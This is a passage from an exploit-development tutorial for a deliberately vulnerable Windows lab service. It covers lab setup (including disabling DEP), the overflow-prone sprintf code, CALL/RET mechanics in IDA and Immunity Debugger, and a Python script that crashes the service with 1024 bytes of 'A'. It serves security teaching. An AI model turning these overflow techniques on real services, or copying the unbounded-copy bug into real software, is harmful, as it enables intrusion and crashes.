



\begin{center}
  Last updated 2019-01-21

  \url{https://github.com/justinsteven/dostackbufferoverflowgood}
\end{center}

\newpage
# Intro

This is a tutorial for `dostackbufferoverflowgood.exe`, a vulnerable Windows
binary produced for The Presentation for Cross-Site Scripters Who Can't Stack
Buffer Overflow Good and Want to Do Other Stuff Good Too.

By the end the tutorial, you should be on your way to feeling comfortable with
the concepts of stack buffer overflows and using them for Saved Return Pointer
overwrite exploitation.

Exploit development is a journey, and it takes some time to get used to the
concepts. Don't beat yourself up if anything is unclear, I probably sucked at
explaining it. Take a breather, read some other tutorials, watch some videos
and read some exploit writeups. Different authors have different ways of
explaining things, and someone else's approach might work better for you. Keep
at it.

This tutorial doesn't cover DEP, ASLR or Stack Canaries. These are modern
compile-time protections that make exploit development tricky. We need to party
like it's 1999 before we can tackle the new stuff.

Please don't simply copy/paste my Python code. Typing it out yourself is the
best way to learn. If you don't like how I've done something, do it your way.
Add your own special flavour (e.g. use `"$"` characters or a repeating
`"lololol"` pattern instead of a bunch of `"A"`'s). *Make it your own*.

Embrace your typos and mistakes. If something doesn't seem quite right with
your exploit, try to reason about what you're seeing in the debugger and where
you might have gone wrong.

If I have said anything overly dumb, or you have suggestions for things that
might be useful, please reach out to me. Pull requests gratefully accepted.

Thanks to the following champions:

* OJ (<https://twitter.com/TheColonial>) for pointing out the dumb stuff
* pipes for some totally bad-ass QA

This is likely to end up being a living document. Keep an eye on the GitHub
repo for updates.


Please feel free to use this material however you wish, all I ask is that you
attribute me as the author. If you improve the material, I would love you to
send me your changes to be included in the document, but I don't require you to
do so.

Happy hacking!

Justin

\newpage
# Get set up

Go and grab yourself the target and some tools.

**The target:**

* `dostackbufferoverflowgood.exe` (<https://github.com/justinsteven/dostackbufferoverflowgood>)

You'll want to either allow `dostackbufferoverflowgood.exe` (TCP 31337) to be
accessed through the Windows Firewall, or turn the Windows Firewall off
completely. You might also need the Visual C Runtime installed to run
`dostackbufferoverflowgood.exe` - see
<https://www.microsoft.com/en-au/download/details.aspx?id=48145> for details.

**The tools:**

* Windows
* Immunity Debugger (<http://www.immunityinc.com/products/debugger/>)
* `mona.py` (<https://github.com/corelan/mona>)
* Optional: IDA (<https://www.hex-rays.com/products/ida/support/download_freeware.shtml>)
* GNU/Linux with Python and Metasploit Framework

You'll need a Windows box to run the binary and Immunity Debugger. Windows 7
x64 SP1 is known to work well. I'd suggest running it in a VM, because running
intentionally vulnerable binaries on a machine you care about is a bad idea.

You might need to adjust Windows' DEP policy to prevent DEP from getting in
your way. `dostackbufferoverflow.exe` is compiled so that it opts out of DEP,
but Windows might decide to force DEP upon it anyway. Pop an elevated `cmd.exe`
(Run as Administrator) and run `bcdedit /enum {current}`. It should tell you
that `nx` is `OptIn`. If it shows as `AlwaysOn` or you just want to be sure
that DEP is off, run `bcdedit /set {current} nx AlwaysOff` and reboot.

Install Immunity Debugger and allow it to install Python for you.

Follow the instructions that come with `mona.py` to jam it in to Immunity. Test
that it's properly installed by punching `"!mona"` in to the command input box
at the bottom of Immunity - it should spit back a bunch of help text in the
`"Log data"` window.


If you want to follow along with the optional `"Examine the binary"`
chapter, install IDA.

You'll probably want a remote "attacker" box running some flavour of GNU/Linux
that can see the Windows box. You could launch your attack from the Windows box
itself, but it's much more exciting to do so remotely. Your attacker box will
need to have Metasploit and Python installed. Kali will work just fine. You
could probably make do with Metasploit on OS X if you are so inclined.

For help with installing Metasploit on Windows or OS X, see
<https://www.rapid7.com/products/metasploit/download.jsp#msf>

\newpage
# Review the source code

```{ .c .numberLines}
// dostackbufferoverflowgood.c

int __cdecl main() {
  // SNIP (network socket setup)
  while (1) {
    // SNIP (Accept connection as clientSocket)
    // SNIP run handleConnection() in a thread to handle the connection
  }
}
void __cdecl handleConnection(void *param) {
  SOCKET clientSocket = (SOCKET)param;
  char recvbuf[58623] = { '\0' };
  // SNIP
  while (1) {
    // SNIP recv() from the socket into recvbuf
    // SNIP for each newline-delimited "chunk" of recvbuf (pointed
    // to by line_start) do:
      doResponse(clientSocket, line_start);
 }
}
int __cdecl doResponse(SOCKET clientSocket, char *clientName) {
  char response[128];

  // Build response
  sprintf(response, "Hello %s!!!\n", clientName);

  // Send response to the client
  int result = send(clientSocket, response, strlen(response), 0);

  // SNIP – some error handling for send()
  return 0;
}
```

`main()` sets up the network socket (TCP port 31337) then kicks off an infinite
loop that accepts network connections and spawns `handleConnection()` threads
to handle them.

`handleConnection()` continuously reads data sent by a remote client over the
network into `recvbuf`. For every line that ends in `\n` it calls
`doResponse()`.

`doResponse()` calls `sprintf()` to build a response to be sent to the client.
Herein lies our stack buffer overflow vulnerability. `sprintf()` prepares the
string `"Hello <something>!!!\n"` and in the place of `<something>` it inserts
what the client sent over the network. The resulting string is stored in the
ASCII string stack buffer called `response`. `response` has been allocated as a
128 character (128 byte) buffer, but the remote client is able to make the
`<something>` be up to about 58,000 characters long. By sending an overly long
line over the network to the service, the client is able to induce a stack
buffer overflow within the service and cause memory corruption on the stack.

\newpage
# Start the binary within Immunity Debugger

Use `File -> Open` or drag and drop `dostackbufferoverflowgood.exe` on to a
running instance of Immunity Debugger.

A terminal running `dostackbufferoverflowgood.exe` (which is a Windows
command-line application) should pop up in the background and Immunity should
fill out with a bunch of information.

Immunity's interface can be daunting at first, with many floating windows to
keep track of. The most important is the CPU window, shown below. You'll
understand the purpose of and begin to use the other windows with time.


* Execution controls - allows the process to be restarted, closed, run, paused, stepped into, stepped over, traced into, traced over, executed until return, and for the disassembler to be navigated to a particular memory address.
* Disassembler - shows the contents of the binary file as assembly instructions. The next instruction to be executed by the CPU is highlighted.
* Registers - shows the current state of the CPU registers, the most important ones being `EAX` through `EIP` at the top of the pane.
* Dump - shows the contents of the process' memory space as a binary dump. Can be useful for examining regions of memory.
* Stack - shows the current state of the stack, with the top of the stack (which grows towards lower memory addresses) highlighted at the top.
* Command input - used to interact with Immunity and plugins in a command-driven fashion.
* Status - shows various status messages (e.g. information about crashes)
* Process state - shows whether the process is paused or running.

\newpage

Processes, when started from within Immunity Debugger, begin in a Paused state,
often with an additional breakpoint set on the program's entry point. This is
to allow you to set breakpoints before the process runs away on you. We don't
need to set any breakpoints right away, so go ahead and bang on the `"Run
Program"` (hotkey `F9`) button a couple of times until the process state shows
`Running`.


\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: F9 is the hotkey for "Run Program". Running, pausing,
    stepping into and stepping over program instructions will be the
    bread-and-butter of your debugging life, so get used to the hotkeys for
    maximum hacking ability!
  }
}

\newpage
# Remotely interact with the running process

Use Netcat (`nc`) on a remote GNU/Linux machine to take the service, which
listens on TCP port 31337, for a quick spin. The IP address of my lab machine
running the service is `172.17.24.132` but yours will probably differ.

```
% nc 172.17.24.132 31337
CrikeyCon
Hello CrikeyCon!!!
asdf
Hello asdf!!!
hjkl;
Hello hjkl;!!!
^C
```

We're going to need something a bit more powerful than typing human-readable
characters at the service over `nc` as our exploit is going to involve sending
some, uh, "creative" characters.

Let's put together a small Python script to connect to the service, send some
text, print the response and disconnect.

```{.python .numberLines}
#!/usr/bin/env python2
import socket

# set up the IP and port we're connecting to
RHOST = "172.17.24.132"
RPORT = 31337

# create a TCP connection (socket)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

# build a happy little message followed by a newline
buf = ""
buf += "Python Script"
buf += "\n"

# send the happy little message down the socket
s.send(buf)

# print out what we sent
print "Sent: {0}".format(buf)

# receive some data from the socket
data = s.recv(1024)

# print out what we received
print "Received: {0}".format(data)
```

\newpage

Making this executable and running it, we get:

```
% chmod u+x exploit.py
% ./exploit.py
Sent: Python Script

Received: Hello Python Script!!!
```

---

Neat.

\newpage
# Optional: Examine the binary

This chapter is optional, but highly recommended. At the very least you should
read it, but don't be afraid to follow along. IDA isn't going to bite, and the
free version will work just fine for what we need.

Before we start chucking data at the service, we should understand:

* How the service works at a low level; and
* How function `CALL` and `RET`urn mechanics work at a low level

While we explore how the service works, we'll make note of the address of:

* The `CALL` to `doResponse()` from `handleConnection()`; and
* The function epilogue and subsequent `RET`urn from `doResponse()` to `handleConnection()`

---

Spoilers:

* The `CALL` to `doResponse()` is at `0x0804168D`
* The function epilogue of `doResponse()` is at `0x08041794`

---

A `CALL` is used when one function wants to invoke another function (or itself
in the case of recursive code) with the intention of having that `CALL`ed
function `RET`urn to the next line of code in the calling function.

A function "prologue" generally appears at the start of every function and
performs some setup in anticipation of that function's execution.

A function "epilogue" generally appears at the end of every function and
performs some tear-down of the function before `RET`urning to the function from
which it was `CALL`ed.

That is:

* Function `A()` `CALL`s function `B()`
* Function `B()`'s prologue does some setup
* Function `B()`'s body does something useful
* Function `B()`'s epilogue does some tear-down and `RET`urns to function `A()`

\newpage

IDA, or the Interactive DisAssembler, is a disassembler produced by Hex-Rays.
It's a fantastic tool that's easy enough to get started with, but owing to its
sheer power is difficult to master. Don't let that stand in the way of giving
it a go. The best way to learn how to use IDA, to learn how programs work at a
very low level, and to examine the inner workings of executable files, is to
start using IDA.

A disassembler is a tool that takes executable code (Windows `.exe.` and `.dll`
files, Linux `ELF` files, drivers, mobile apps, console games, and much more),
looks at the bits and bytes that comprise its machine instructions, and
"disassembles" them back in to assembly code. For example:

* `"\x90"` becomes `"NOP"`
* `"\x31\xC0"` becomes `"XOR EAX,EAX"`
* `"\x68\xEF\xBE\xAD\xDE"` becomes `"PUSH 0xDEADBEEF"`

A decompiler, on the other hand, takes this process one step further and turns
the disassembly in to a high-level programming language representation, such as
C.

IDA, in and of itself, is not a decompiler. It is a disassembler. Hex-Rays
makes a fantastic decompiler plugin for IDA that is licensed separately, but as
a general rule, don't expect to get high-level C-like code out of a
disassembler. Decompilation is an entirely different beast.

IDA does a great job of disassembling almost anything you throw at it (and if
it doesn't, you can write a processor module for the format you're interested
in) and presents the disassembly in either a linear view or what is known as
the graph view, which shows code as discrete "blocks" with connections between
them. It chews through the strings in a file and makes it easy to jump to the
locations in which they are referenced, makes it possible to annotate the code
or rename functions/variables as you see fit, makes sense of symbol files (more
on symbols shortly), has a plugin engine, and much more.

The free version of IDA Pro comes with some limitations (as of the time of
writing):

* Non-commercial use only
* Lacks all features introduced in IDA > v7.0
* Lacks support for many processors and file formats (however, it does support 64-bit files now)
* Lacks the debugging feature
* Lacks support

The paid version of IDA is quite expensive, but well worth the money if you
have the need for a disassembler. The free version will work just fine for our
needs against `dostackbufferoverflowgood.exe` even if it is a little old and
clunky.

Alternatives to IDA include:

* Hopper <https://www.hopperapp.com/> - commercial
* Binary Ninja <https://binary.ninja/> - commercial
* radare2 <http://radare.org> - free software
* The Online Disassembler <https://www.onlinedisassembler.com/static/home/>

Install IDA Free from
<https://www.hex-rays.com/products/ida/support/download_freeware.shtml> (unless
you have IDA Pro, you lucky duck)

Launch IDA and load `dostackbufferoverflowgood.exe`

When it asks for how it should handle the file, just click `OK`.



IDA will then prompt you, asking if it should try to load a PDB file from the
local symbol store or the Microsoft Symbol Server. Click `"No"`. The PDB file
for `dostackbufferoverflowgood.exe` is not in either of these locations.

IDA will start analysing the file, trying to make sense of its components bit
by bit. While it churns away, you should have it load the PDB file which is
available at <https://github.com/justinsteven/dostackbufferoverflowgood>

Make sure `dostackbufferoverflowgood.pdb` is in the same directory as
`dostackbufferoverflow.exe` and click `File -> Load File -> PDB File`.

\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: PDB files, which are Windows Symbol files, give a
    disassembler more context (or "symbols") regarding an executable. This
    allows it to fill in things like function names which are otherwise not
    stored in a compiled executable. Symbols are generated by a compiler at
    compile-time. If a software vendor doesn't publish a binary's symbols in a
    PDB file or host them on a symbol server, you're out of luck and will have
    to slog through your reverse engineering with a little less context. Note
    that symbols aren't unique to Windows executables, but using PDB files as a
    way of storing them is unique to Windows.
  }
}

Once IDA has slurped up the PDB file (it should say `"PDB: total <some number>
symbols loaded"` in the log window) and finished analysing the executable (it
should say `"The initial autoanalysis has been finished"` in the log window)
it's time to dig in.

In the Functions window, locate `doResponse` and double-click on it.


This will take us to the disassembly of the `doResponse()` function, within
which we know our vulnerable `sprintf()` call is.


\newpage

At the top of the function we see its function prologue:

* `ESP`/`EBP` dance; and
* The reserving of stack space for function local variables.

We then see the `PUSH`ing of three arguments to `sprintf()` followed by the
`CALL` to `sprintf()`. Function `CALL` paramaterisation is out of the scope of
this tutorial, but an experienced reverse engineer would determine:

1. The pointer to the output buffer is a pointer to the function local variable that IDA has labeled `buf`
2. The pointer to the format string is a pointer to the string `"Hello %s!!!\n"`
3. A pointer to a value to be used in place of the format string "format specifier", `"%s"`, is a pointer to the second argument of `doResponse()`.

This matches up perfectly with the C source code:

```{.c .numberLines}
...
int __cdecl doResponse(SOCKET clientSocket, char *clientName) {
  char response[128];

  // Build response
  sprintf(response, "Hello %s!!!\n", clientName);
...
```


\newpage

Scroll down to the bottom of the function. Here we'll find the function
epilogue, which winds up the stack frame of the function and `RET`urns control
to the caller. We'll ignore the idea of a return value for now as it's out of
the scope of this tutorial.


We want to make note of the address of this function epilogue so that we can
examine its workings in Immunity. Conveniently for us, it forms the entirety of
what IDA considers to be a "block", and so its address is displayed for us as
being `0x08041794`.

The last thing we want to do is grab the address of the `CALL doResponse`
instruction that we expect to be in `handleConnection()`. We could browse to
the `handleConnection()` function using the Functions window, but to try
something different, let's use the xrefs (Cross references) feature of IDA to
hop over to where `handleConnection()` is referenced.

Click on any mention of `doResponse` in the disassembly and press "`x`". This
will cause IDA to list the xrefs for the `doResponse()` function. As expected,
the only place it is referenced is in a `CALL` from `handleConnection()`. Click
`OK` to head to that cross-reference.


This will take us to `handleConnection()`'s `CALL` to `doResponse()`. Looking
at IDA's "Graph overview" window, we see where in the mess that is
`handleConnection()` the `CALL` is. Aren't you glad we used the xrefs feature
rather than going hunting!


\newpage

We want to get the address of the `CALL` to `doResponse()` so we can observe
its behaviour in Immunity, but the graph view of the `CALL` doesn't display the
address of the instruction.


Highlight the instruction and press `Spacebar` to head to the linear
disassembly view where the address of each instruction is listed. Here, we can
see the exact address of the `CALL` instruction is `0x0804168D`


Notice how we never paid much attention to the address of `doResponse()`'s
function prologue. Even though we'll want to step through `doResponse()`'s
function prologue using Immunity in the next chapter, we know that the prologue
will be executed right after the `CALL` to `doResponse()`. By setting a
breakpoint on the `CALL` and stepping through it, we'll find ourselves at the
function prologue.

\newpage
# Explore function `CALL`/`RET`urn mechanics

Armed with the location of the `CALL` to `doResponse()` and the location of its
function epilogue, let's explore the workings of function `CALL`/`RET`urn
mechanics using Immunity Debugger. We'll do this using breakpoints.

Breakpoints, if you're not familiar with them, are points in the program at
which you want execution to "break". In this sense, to break is to pause
execution. This would allow you to inspect the state of the program within the
debugger, perhaps tell the program to close altogether, perhaps change the
state of the program (e.g. modify the contents of registers or even the
program's code), and then let it continue executing.

By setting a breakpoint on our two locations of interest (the location at which
`handleConnection()` calls `doResponse()`, and `doResponse()`'s function
epilogue where it winds its business up) we will be able to see what the
program does, step-by-step, at these two points of execution.

Set a breakpoint on our two locations:

* The `CALL` to `doResponse()` at `0x0804168D`
* The function epilogue of `doResponse()` at `0x08041794`

There are several ways to set breakpoints in Immunity, and you can do so while
the program is either running or paused.

Breakpoints can be set by right-clicking on an assembly instruction in the CPU
window's disassembly pane then going to `Breakpoint -> Toggle` (hotkey `F2`).
This is handy when you're browsing through the code and want to set a
breakpoint on what you're looking at. To navigate the assembly pane to a
particular location of interest, you can right-click on it then go to `"Go
to"`, `"Expression"` (hotkey `Ctrl-G`). Navigating to the two addresses of
interest, taking a look to make sure they look correct, then setting
breakpoints would be a fine way to go about it.

If you're lazy and impatient and know exactly which addresses you want to set
breakpoints on dammit, you can use the command box at the bottom of Immunity to
quickly add a breakpoint. Simple type `"b <address>"` then press enter for each
breakpoint you want to set.

Open the Breakpoints window by going to `View -> Breakpoints` (hotkey `Alt-B`)
to confirm that both breakpoints have been set.


If the process isn't already running (you can check if it is in the bottom
right-hand corner of Immunity) then whack the `"Run program"` button or press
`F9`.

Run your script from earlier (The one that connects and sends `"Python
Script\n"` down the line). In the process of handling the message within
`handleConnection()`, the program will `CALL` `doResponse()`, the first of our
two breakpoints will be hit, and Immunity will tell us that the program is now
Paused.


\newpage

**Function `CALL` mechanics**

Now, we know that when a `CALL` is executed, it does two things:

* It `PUSH`es the address of the next instruction to the stack (so it can later be `RET`urned to by the `CALL`ed function)
* It modifies `EIP` so that execution jumps to the function being `CALL`ed

Before we continue, take a peek at the current state of the stack within
Immunity. It's in the CPU window, in a pane in the bottom right-hand corner.
Note that the address that the stack is at on your machine might be different
to mine, and the contents of your stack might be slightly different to mine.
The concepts and mechanics of the `CALL` and, later on, the `RET`, will still
be the same.

`ESP` points to the top of the stack, which for me is at `0x01F819F8`, and the
top of the stack currently looks like this on my machine:

```
---------------------------  STACK  ----------------------------
ESP -> 004C19F8   00000078  x...  |Arg1 = 00000078
       004C19FC   004C1A00  ..L.  \Arg2 = 004C1A00 "Python Script"
       ....
----------------------------------------------------------------
```

`EIP` points to the instruction that is about to be executed, `"CALL
doResponse()"`, at `0x0804168D`. This is visible in the disassembly view of
Immunity's CPU window (top left-hand corner). Take note that the instruction
that follows it, `"ADD ESP, 8"`, is at `0x08041692`:

```
----------------------------  CODE  ----------------------------
....
EIP -> 0804168D   . E8 5E000000    CALL dostackb.doResponse
       08041692   . 83C4 08        ADD ESP,8
....
----------------------------------------------------------------
```

From here, we can use the "Step into" (hotkey `F7`) operation in Immunity to
allow execution to progress just one instruction, during which the `CALL` will
be executed and control will pass to the `doResponse()` function. When we do,
we'll notice some changes are reflected in Immunity.

First of all, we see changes regarding the stack. `ESP` used to point to the
top of the stack at `0x01F819F8` but now it points to `0x01F819F4`, an address
that is four bytes less than the old top of the stack. This demonstrates that,
on the x86 architecture, the stack grows downwards toward lower addresses.

The stack grew (towards a lower memory address) to make room for the address of
the instruction after the `CALL`, `0x08041692`, to be pushed to the stack. The
top of my stack now looks like this:

```
---------------------------  STACK  ----------------------------
ESP -> 004C19F4   08041692  ’...  RETURN to dostackb.08041692
       004C19F8   00000078  x...  |Arg1 = 00000078
       004C19FC   004C1A00  ..L.  \Arg2 = 004C1A00 "Python Script"
       ....
----------------------------------------------------------------
```

See the difference that the `CALL` has made to the stack?

The other change is that `EIP` now points to the first instruction in
`doResponse()` at `0x080416F0` (a `"PUSH EBP"`) and the disassembly view has
flicked across to the new location in the program:

```
----------------------------  CODE  ----------------------------
....
       080416F1  |. 8BEC           MOV EBP,ESP
       080416F3  |. 81EC 94000000  SUB ESP,94
....
----------------------------------------------------------------
```

We are now in the function prologue of `doResponse()`, a sequence of
instructions that more or less appears at the top of every function:

* `"PUSH EBP"` to save the current `EBP` value on the stack;
* `"MOV EBP,ESP"` to copy the current value of `ESP` to `EBP`, setting up a new `EBP` base pointer value;
* `"SUB ESP,<something>"` to make room on the stack for function local variables.

\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: Some compilers will use the ENTER instruction instead of
    these three instructions. Be on the lookout.
  }
}

Step into these three instructions one-by-one (`F7`) and watch the stack change
at each stage.

After executing the `"SUB ESP,94"` my stack now looks like this:

```
---------------------------  STACK  ----------------------------
ESP -> 004C195C   FFFFFFFE  þÿÿÿ  /
       004C1960   73299A18  .š)s  |
       004C1964   73299C37  7œ)s  |
          <--- SNIP --->          |  Function local variable space
       004C19E4   00000017  ....  |
       004C19E8   004C1974  t.L.  |
       004C19EC   005737D0  Ð7W.  \
       004C19F0   004CFF4C  LÿL.  Saved EBP
       004C19F4   08041692  ’...  RETURN to dostackb.08041692
       004C19F8   00000078  x...  |Arg1 = 00000078
       004C19FC   004C1A00  ..L.  \Arg2 = 004C1A00 "Python Script"
       ....
----------------------------------------------------------------
```

By subtracting `0x94` from `ESP`, the stack has expanded upwards. The CPU has
effectively "made room" on the stack between `0x0048195C` and `0x004819F0` for
the storage of local variables belonging to the `doResponse()` function. This
is stack space in which the function can temporarily store the value of local
variables in for the lifetime of its execution.

We see that this address range already has some data in it. This is probably
left-over junk from the previous execution of functions within the program -
that is, what you're seeing are the remnants of old, no longer used function
local variables (RIP in peace) and can be ignored.

This function local variable storage space is where `doResponse()` will hold
`response`, the vulnerable stack buffer that `sprintf()` allows us to overflow.

This brings us to the end the prologue of `doResponse()`.

You should restart the process within Immunity, make sure your breakpoints are
still there (`Alt-B`), and run your Python script again. Do this a few times,
watching what happens to `EIP`, `ESP` and the stack at each step of the
process. See if you can predict what the effect of each instruction will be
before you step into it. Some patience now, until you're comfortable with the
way in which processes execute and functions are `CALL`ed, will pay huge
dividends later on.

**Function `RET`urn mechanics**

Next up is stepping through and understanding the process by which a function
`RET`urns control to its caller.

Remember how the `CALL` pushed the address of the instruction following the
`CALL` to the stack? This is known as the Saved Return Pointer, and it's the
function epilogue's job to "wind up" the function's stack frame, restore the
saved `EBP` value, then `RET`urn to the Saved Return Pointer.

Function epilogues generally consist of the following sequence of instructions:

* `MOV ESP,EBP` to pivot the stack "back down" to the saved `EBP` and Saved Return Pointer area;
* `POP EBP` to restore the saved `EBP` value into the `EBP` register;
* `RET` to return to the Saved Return Pointer.

\framebox{
  \parbox{\textwidth}{
    \textbf{Pro tip}: Some compilers will use the LEAVE instruction instead of
    these three instructions.
  }
}

You should already have a breakpoint set on `doResponse()`'s function epilogue
at `0x08041794`. To make sure we're on the same page, restart the process
within Immunity, run your Python script, see that the breakpoint on the `CALL`
to `doResponse()` gets hit, then press `F9` to continue. The breakpoint on
`doResponse()`'s function epilogue should be hit.

At this time, the disassembly view will show the following code:

```
----------------------------  CODE  ----------------------------
....
EIP -> 08041794  |> 8BE5           MOV ESP,EBP
       08041796  |. 5D             POP EBP
       08041797  \. C3             RETN
....
----------------------------------------------------------------
```

\newpage

And the stack, on my machine, looks like the following:

```
---------------------------  STACK  ----------------------------
ESP -> 004C195C   6C6C6548  Hell  / /
       004C1960   7950206F  o Py  | |
       004C1964   6E6F6874  thon  | | "response" local variable
       004C1968   72635320   Scr  | |
       004C196C   21747069  ipt!  | |
       004C1970   000A2121  !!..  | \
       004C1974   004C1994  ”.L.  |
       004C1978   004C19A8  ¨.L.  |  Function local variable space
       004C197C   004C19A0   .L.  |
          <--- SNIP --->          |
       004C19E4   00000017  ....  |
       004C19E8   004C1974  t.L.  |
       004C19EC   005737D0  Ð7W.  \
       004C19F0   004CFF4C  LÿL.  Saved EBP
       004C19F4   08041692  ’...  RETURN to dostackb.08041692
       004C19F8   00000078  x...  |Arg1 = 00000078
       004C19FC   004C1A00  ..L.  \Arg2 = 004C1A00 "Python Script"
       ....
----------------------------------------------------------------
```

We can see that the function has done its job. The `sprintf()` has built our
`response` of `"Hello Python Script!!!\n"` and stored it on the stack.

During the function prologue, the `"MOV EBP,ESP"` function copied the value of
`ESP` at that time to the `EBP` register. Now, the epilogue is wanting to do
the opposite, `"MOV ESP,EBP"`, which will have the effect of copying the value
of `ESP` during the prologue back to `ESP`. In doing so, the stack will be
"unwound", bringing the top of the stack back down to where it was during the
function prologue.

\newpage

Press `F7` (Step into) to execute this instruction and watch the stack change
drastically:

```
---------------------------  STACK  ----------------------------
       004C195C   6C6C6548  Hell  / /
       004C1960   7950206F  o Py  | |
       004C1964   6E6F6874  thon  | | "response" local variable
       004C1968   72635320   Scr  | |
       004C196C   21747069  ipt!  | |
       004C1970   000A2121  !!..  | \
       004C1974   004C1994  ”.L.  |
       004C1978   004C19A8  ¨.L.  |  Function local variable space
       004C197C   004C19A0   .L.  |
          <--- SNIP --->          |
       004C19E4   00000017  ....  |
       004C19E8   004C1974  t.L.  |
       004C19EC   005737D0  Ð7W.  \
ESP -> 004C19F0   004CFF4C  LÿL.  Saved EBP
       004C19F4   08041692  ’...  RETURN to dostackb.08041692
       004C19F8   00000078  x...  |Arg1 = 00000078
       004C19FC   004C1A00  ..L.  \Arg2 = 004C1A00 "Python Script"
       ....
----------------------------------------------------------------
```

Immunity's view of the stack will appear to jump down to the new top of the
stack, but if you scroll up you'll see the ASCII string `"Hello Python
Script!!!!\n"` at the address at which `ESP` was previously pointing.

`EIP` will now be pointing at the `"POP EBP"` instruction:

```
----------------------------  CODE  ----------------------------
....
       08041794  |> 8BE5           MOV ESP,EBP
EIP -> 08041796  |. 5D             POP EBP
       08041797  \. C3             RETN
....
```

This instruction will will restore the Saved `EBP` value (at which `ESP` is now
pointing) in to the `EBP` register.

Stepping into this instruction (`F7`) will have `ESP` now point at
the Saved Return Pointer:

```
---------------------------  STACK  ----------------------------
       004C19F0   004CFF4C  LÿL.  Saved EBP
ESP -> 004C19F4   08041692  ’...  RETURN to dostackb.08041692
       ....
----------------------------------------------------------------
```

\newpage

And `EIP` will be pointing at `RET`, which is the end of the function epilogue
and the end of the `doResponse()` function:

```
----------------------------  CODE  ----------------------------
....
       08041794  |> 8BE5           MOV ESP,EBP
       08041796  |. 5D             POP EBP
EIP -> 08041797  \. C3             RETN
....
```

`RET` causes execution to jump to the address stored on the stack at which
`ESP` points, which should be the Saved Return Pointer that was put there by
the `CALL` to the function. Pressing `F7` will execute this `RET` and control
will `RET`urn to the address after the `CALL` to `doResponse()`. The
disassembly view will flick across to this part of the program:

```
----------------------------  CODE  ----------------------------
....
       0804168D   . E8 5E000000    CALL dostackb.doResponse
EIP -> 08041692   . 83C4 08        ADD ESP,8
....
----------------------------------------------------------------
```

The function has been `RET`urned from, bringing us to the end of our
exploration of function `RET`urn mechanics.

As you did with function `CALL` mechanics, you should restart the process
within Immunity and go through this a few times. Take your time and step
through the function `RET`urn mechanics line by line, trying to predict what
will happen to `EIP`, `ESP` and the stack at each step. Once you're comfortable
with what you're seeing and why you're seeing it, it's time to move on to
"triggering" the bug.

\newpage
# Trigger the bug

We know there's a bug regarding the `sprintf()`'ing of data to `doResponse()`'s
local variable named "`response`". Let's chuck a bunch of data at the service
to see what happens. This is what's known as "triggering" the bug, and often
results in a DoS exploit.

It's up to you if you keep your breakpoints enabled or disabled for this. You
might want to step through the triggering of the bug line-by-line once you're
inside `doResponse()` using `F8` (this is the Step Over command, it will
prevent you from falling down the rabbit-hole of `CALL`s that the function
performs) to watch the Saved Return Pointer be overwritten and then returned
to. If you would prefer the breakpoints be disabled, open the Breakpoints
window (`Alt-B`) and right-click on each breakpoint to disable it.

Modify your Python script to send 1024 `A`'s to the service, followed by a
newline. Note that I've chosen to remove the printing of what I'm sending for
brevity's sake, as well as the `recv()` call and printing of what I'd have
received. Receiving the response is not actually needed to trigger and exploit
the bug.

```{.python .numberLines}
#!/usr/bin/env python2
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf = ""
buf += "A"*1024
buf += "\n"

s.send(buf)
```

---

Running this:

```
% ./exploit.py
```

We get a crash in Immunity!


Note the status bar informing us of an Access Violation when executing
